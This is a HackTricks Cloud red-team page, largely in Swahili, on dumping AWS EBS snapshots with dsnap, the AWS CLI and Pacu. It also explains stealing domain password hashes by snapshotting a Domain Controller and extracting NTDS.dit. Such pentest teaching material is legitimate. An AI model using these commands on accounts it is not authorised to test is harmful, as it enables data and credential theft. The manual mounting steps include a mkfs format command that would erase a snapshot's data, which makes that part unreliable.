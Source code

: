 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Kuangalia snapshot kwa ndani
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Kumbuka** kwamba `dsnap` haitakuruhusu kupakua picha za umma. Ili kuzunguka hili, unaweza kufanya nakala ya picha hiyo katika akaunti yako binafsi, na kupakua hiyo:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Kwa maelezo zaidi kuhusu mbinu hii angalia utafiti wa asili katika [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Unaweza kufanya hivi na Pacu ukitumia moduli [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Kuangalia snapshot katika AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Mount it in a EC2 VM under your control** (inapaswa kuwa katika eneo moja na nakala ya nakala ya akiba):

Step 1: Hifadhi mpya ya ukubwa na aina unayopendelea inapaswa kuundwa kwa kuelekea EC2 –> Volumes.

Ili uweze kufanya hatua hii, fuata amri hizi:

* Unda hifadhi ya EBS kuunganisha na mfano wa EC2.
* Hakikisha kuwa hifadhi ya EBS na mfano ziko katika eneo moja.

Step 2: Chaguo la "attach volume" linapaswa kuchaguliwa kwa kubonyeza kulia kwenye hifadhi iliyoundwa.

Step 3: Mfano kutoka kwenye kisanduku cha maandiko ya mfano unapaswa kuchaguliwa.

Ili uweze kufanya hatua hii, tumia amri ifuatayo:

* Unganisha hifadhi ya EBS.

Step 4: Ingia kwenye mfano wa EC2 na orodhesha diski zinazopatikana kwa kutumia amri `lsblk`.

Step 5: Angalia kama hifadhi ina data yoyote kwa kutumia amri `sudo file -s /dev/xvdf`.

Ikiwa matokeo ya amri hapo juu yanaonyesha "/dev/xvdf: data", inamaanisha kuwa hifadhi ni tupu.

Step 6: Fanya hifadhi kuwa mfumo wa faili wa ext4 kwa kutumia amri `sudo mkfs -t ext4 /dev/xvdf`. Vinginevyo, unaweza pia kutumia muundo wa xfs kwa kutumia amri `sudo mkfs -t xfs /dev/xvdf`. Tafadhali kumbuka kuwa unapaswa kutumia ama ext4 au xfs.

Step 7: Unda saraka ya uchaguzi wako ili kuunganisha hifadhi mpya ya ext4. Kwa mfano, unaweza kutumia jina "newvolume".

Ili uweze kufanya hatua hii, tumia amri `sudo mkdir /newvolume`.

Step 8: Unganisha hifadhi kwenye saraka ya "newvolume" kwa kutumia amri `sudo mount /dev/xvdf /newvolume/`.

Step 9: Badilisha saraka hadi saraka ya "newvolume" na angalia nafasi ya diski ili kuthibitisha kuunganisha hifadhi.

Ili uweze kufanya hatua hii, tumia amri zifuatazo:

* Badilisha saraka hadi `/newvolume`.
* Angalia nafasi ya diski kwa kutumia amri `df -h .`. Matokeo ya amri hii yanapaswa kuonyesha nafasi ya bure katika saraka ya "newvolume".

Unaweza kufanya hivi na Pacu kwa kutumia moduli `ebs__explore_snapshots`.

## Checking a snapshot in AWS (using cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Mtu yeyote wa AWS mwenye ruhusa ya **`EC2:CreateSnapshot`** anaweza kuiba hash za watumiaji wote wa domain kwa kuunda **snapshot ya Domain Controller** na kuikamilisha kwenye mfano wanaodhibiti na **kutoa faili ya NTDS.dit na SYSTEM** registry hive kwa matumizi na mradi wa secretsdump wa Impacket.

Unaweza kutumia chombo hiki kuendesha shambulio: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) au unaweza kutumia moja ya mbinu za awali baada ya kuunda snapshot.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
